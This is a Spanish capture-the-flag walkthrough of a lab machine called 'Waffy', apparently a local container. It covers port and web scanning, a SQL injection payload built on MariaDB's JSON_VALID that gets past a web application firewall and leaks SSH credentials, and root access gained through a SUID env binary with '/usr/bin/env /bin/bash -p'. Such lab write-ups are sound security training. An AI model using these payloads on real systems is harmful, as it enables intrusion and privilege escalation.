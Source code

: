 ## FASE ENUMERACION

Sabiendo la IP de la máquina víctima vamos a hacer un reconocimiento de los puertos abiertos y los servicios
que corren por ellos, así como sus versiones para ver si tienen alguna vulnerabilidad:

IP-->`172.17.0.2`

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```

![Nmap Scan](images/Waffy/1.png)



```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

-Puerto 22 con SSH en versión no vulnerable 

-Puerto 80 HTTP

Sin credenciales ni usuarios nos vamos a centrar en el puerto 80, vamos a lanzar un whatweb para ver si reporta algo interesante:

```bash
whatweb 172.17.0.2 | tee whatweb
```


![Nmap Scan](images/Waffy/2.png)


Lo más relevante es ese 403, vamos a visitar la página.



![Nmap Scan](images/Waffy/3.png)

Un panel, miramos el código fuente y no vemos nada, vamos a fuzzear

```bash
 feroxbuster --url "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,html,zip, ,log,js,cgi,js
```


![Nmap Scan](images/Waffy/4.png)


no encontramos mucho mas salvo que redirecciones, intentamos un ataque con fuerzabruta con hydra y nos reporta falsos positivos, teniendo solo eso,
vamos a intentar una inyeccion sql


![Nmap Scan](images/Waffy/5.png)


Y nos redirecciona


![Nmap Scan](images/Waffy/6.png)


Algo lo ha bloqueado, vamos a ver si hay un waf detrás


```bash
 wafw00f http://172.17.0.2
```


![Nmap Scan](images/Waffy/7.png)



## FASE INTRUSIÓN

efectivamente lo hay, aquí es ir probando inyecciones con diccionarios etc, pero al final, en los fallos salta que es maria db, mirando documentaciones:

```bash
https://mariadb.com/docs/server/reference/sql-functions/special-functions/json-functions/json_valid
```

encuentro esta query:

```
JSON_VALID(value)
```

así que voy a intentar inyectar algo con esta estructra:

```
'OR JSON_VALID(value)- --
```

En valor intento con name, password, nombre, password, pass y por fin:

```
'OR JSON_VALID(id)- --
```


![Nmap Scan](images/Waffy/8.png)

y conseguimos unas credenciales para SSH


![Nmap Scan](images/Waffy/9.png)



Nos conectamos por SSH con las credenciales:

```bash
ssh baluton@172.17.0.2
```

![Nmap Scan](images/Waffy/10.png)



##  FASE ESCALADA PRIVILEGIOS

Vamos a mirar las versiones del kernel por si es vulnerable, si estamos en alfún grupo extraño, si tienemos privilegios suudo y no encontramos nada hasta buscar binarios con permiso SUID:


```
baluton@060d666f2127:~$ uname -a
Linux 060d666f2127 6.12.33+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.33-1kali1 (2025-06-25) x86_64 x86_64 x86_64 GNU/Linux
baluton@060d666f2127:~$ id
uid=1000(baluton) gid=1000(baluton) groups=1000(baluton)
baluton@060d666f2127:~$ sudo -l
-bash: sudo: command not found
baluton@060d666f2127:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/env
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
baluton@060d666f2127:~$ 
```


![Nmap Scan](images/Waffy/11.png)


Vemos `/usr/bin/env` , nos vamos a nuestra página de confianza para explotación de binarios y buscamos `env`

```bash
https://gtfobins.github.io/
```



![Nmap Scan](images/Waffy/12.png)


Así pues vamos a explotar la vulnerabilidad:

```bash
/usr/bin/env /bin/bash -p
```

![Nmap Scan](images/Waffy/fin.png)






